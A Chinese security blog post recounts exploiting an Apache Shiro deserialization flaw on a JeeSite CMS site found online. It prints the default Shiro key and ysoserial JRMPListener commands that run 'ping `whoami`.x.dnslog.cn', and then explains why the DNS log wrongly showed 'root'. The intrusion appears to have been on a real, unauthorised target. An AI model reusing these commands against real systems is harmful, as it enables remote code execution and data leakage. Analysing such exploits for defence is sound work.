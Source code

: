 ```yaml
---
layout: about
category: about
Researchname: JRMP-Gadget
toc: true
permalink: /about/JRMP-Gadget/
author: Bin4xin
desc: 「其他研究」
---
```


# Shiro框架深入利用：JRMP-Gadget利用链浅析

> PartI: Stay Hungry, Stay Foolish. 
> 
> PartII: 学的越多，不懂得也就越多。

**2021年 6月30日 星期三 15时30分40秒 CST* 前不久，Fofa安全工程师某信正在愉快的网上冲浪，不一会群里丢出了一个惹眼的链接吸引了某信的注意。

- 链接格式：`http://{ip.addr}:{ip.port}/a/login`

**芽儿～当时我整个人的是这样的：**
<div class="col-lg-2">
<img align="left" src="{{site.PicturesLinks_Domain}}/images/2022/02/20/iLHbaIctkf9GWpO.jpg"/>
</div>

<div>
因为这个链接实在是太熟悉了，浏览器访问，果然直接跳转：<br>
<code>/a/login;JSESSIONID=···</code><br>
和具有辨识度的Cookie：<code>jeesite.session.id</code><br>
<br>
一切都是这么的自然，我可真是太神气了。
</div>

梳理一下：

- Shiro 框架
- Jeesite CMS
	- 已知路由 `/a/、/f/`...

所以这个站就可以直接从Shiro入手来看，老三样：跑密钥 -> 利用链 -> Dnslog

不过跑密钥出了个小插曲，登录路由login处设置`rememberMe Cookie`时反包*Set-Cookie*不显示*deleteMe Cookie*，具体原因待更新：[*Different Shiro Framework deserialization analysis ideas*](/about/ShiroDeser/){:target="_blank"}，而从上面的特征我们已经可以肯定存在Shiro框架，当然也可以通过对不存在的路由进行Cookie设置来进行验证。

![5oPJbQEhrz34X8d.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/5oPJbQEhrz34X8d.png)

由于上面的原因导致有一些匹配回包来检测shiro框架为逻辑工具就在原地划水不动弹，不慌，总有一些“尖子生”，跑出默认密钥：`kPH+bIxk5D2deZiIxcaaaA==`

紧接着：
```bash
[*] find: JRMPClient can be use
0: JRMPClient
```

- ysoserial.jar公网起JRMP端口，转发命令<code>ping `whoami`.x.dnslog.cn</code>
- JRMP监听显示流量建立链接，查看dnslog：

![5EVuHQXA3doCfcJ.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/5EVuHQXA3doCfcJ.png)


`默认加密密钥 -> JRMPClient利用链 -> Shiro反序列化RCE root` 多么赏心悦目，一切都是那么地丝滑。
<div class="col-lg-3">
	<img  src="{{site.PicturesLinks_Domain}}/images/2022/02/20/IxPRmipAQ4JfBjH.jpg"/>
</div>
<div>
	<div class="col-lg-8">
		<strong>然而却帅不过三秒：</strong>
		<img  src="{{site.PicturesLinks_Domain}}/images/2022/02/20/rEDCbQHuTF3XY5K.png"/>
	</div>
</div>
<br><br><br>
<br><br><br>
<br><br>

## 提出问题

其实在这次渗透的过程中，我对于两个地方存疑：

- 第一个问题是开发向：就是Shiro框架识别阶段，`/a/login`路由配置Shiro对应Cookie后没有返回对应的Set-Cookie，如何实现的？同时我这里查了一些资料供参考
	- [Apache Shiro反序列化识别那些事](https://www.hetianlab.com/specialized/20200612143432){:target="_blank"}

- 第二个问题是JRMP Gadget利用阶段，为什么Dnslog记录显示为root，而现实情况下反弹的shell权限则是低权限？

### # 为什么不是root?

![LAM9NcPdRUYWa16.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/LAM9NcPdRUYWa16.png)

如上图，整张图是我个人对于Java反序列化中对于JRMP利用链的过程理解，从`local Attacker`环节开始，具体细节在这里不做展开叙述，其中存在歧义的地方我使用红色部分进行了标记；个人分析存在的问题也是红色部分：

> `VPS - JRMP`阶段在服务器启动的时候命令为：
>
> ><code>java -cp ysoserial.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections5 "ping `whoami`.x.dnslog.cn"</code>
> >
> >对应的：
> >`ysoserial.exploit.JRMPListener`利用类、`3333`本地JRMP监听端口、`CommonsCollections5`Java反序列化利用链以及转发<code>"ping `whoami`.x.dnslog.cn"</code>命令

再来看另外一张图片：

![me6CANHghjYIOkR.jpg]({{site.PicturesLinks_Domain}}/images/2022/02/20/me6CANHghjYIOkR.jpg)

我们看上面这一张图，重点在于`ping root.zj6u6s.dnslog.cn`进程对应的用户同样是低权限用户，也就是说是低权限的用户去运行的<code>`whoami`</code>这个命令而且输出的是`root`，但是从Linux权限的常识来看是不会出现这样的情况的。所以有了以下设想：

- 我初步的设想是：**假设1:命令是在受害机器上执行**，那么有几种情况：
	- 1.1:会不会因为该用户是sudo用户才导致返回的dns记录为root？
	- 1.2:~~启动Tomcat服务的为root用户？~~（通过`ps -ef`可以直接排除，而且细想，若Tomcat用户为root，那么肯定反弹的用户也为root）

所以我针对1.1假设进行了实验进行正确型验证：
```bash
➜ bin4xin sudo -l

User bin4xin may run the following commands on bin4xin's MacbookPro:
    (ALL) ALL

➜ bin4xin (sudo) ping `whoami`.31veg3.dnslog.cn
PING bin4xin.31veg3.dnslog.cn (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.087 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.163 ms
```
我们可以通过上面的bash信息和下面的dnslog信息返回看到，与sudo用户无关
```bash
#是否添加sudo返回都如下：
#dnslog返回记录
bin4xin.31veg3.dnslog.cn	61.132.161.4	2021-07-05 13:44:34
bin4xin.31veg3.dnslog.cn	61.132.161.6	2021-07-05 13:44:34
```
所以这种假设我们就直接排除了；

- 第二种设想 **假设2:命令是在VPS机器上执行**，就是JRMP利用过程链那张图中红色的那一部分，我想：<code>"ping `whoami`.x.dnslog.cn"命令</code>转发前本地机器是否已经执行了`whoami`所以导致了受害机器执行的是root开头的命令呢？
	- 那么如果通过这种假设，过程就是：`JRMP Server Listen: *0.0.0.0:3333` -> 本地机器执行<code>`whoami`</code>
	- 受害机器访问JRMP Server，执行`ping root.x.dnslog.cn`。

这种情况下来看，实际上也能够说通，而实际上也正是如此，本来打算是在本地跑个Shiro走一整个流程的，但是直到我发现了这个：
```bash
➜ bin4xin java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 "ping `whoami`.6iep0z.dnslog.cn"
* Opening JRMP listener on 8888

#ysoserial.exploit.JRMPListener利用类监听状态下：
➜ bin4xin ps -ef|grep ping

  501  6895  6696   0  2:37下午 ttys004    0:00.54 java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 ping bin4xin.6iep0z.dnslog.cn
```
看到`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 ping bin4xin.6iep0z.dnslog.cn`进程一切已然清晰；

至此，本章核心阐述完毕。以上
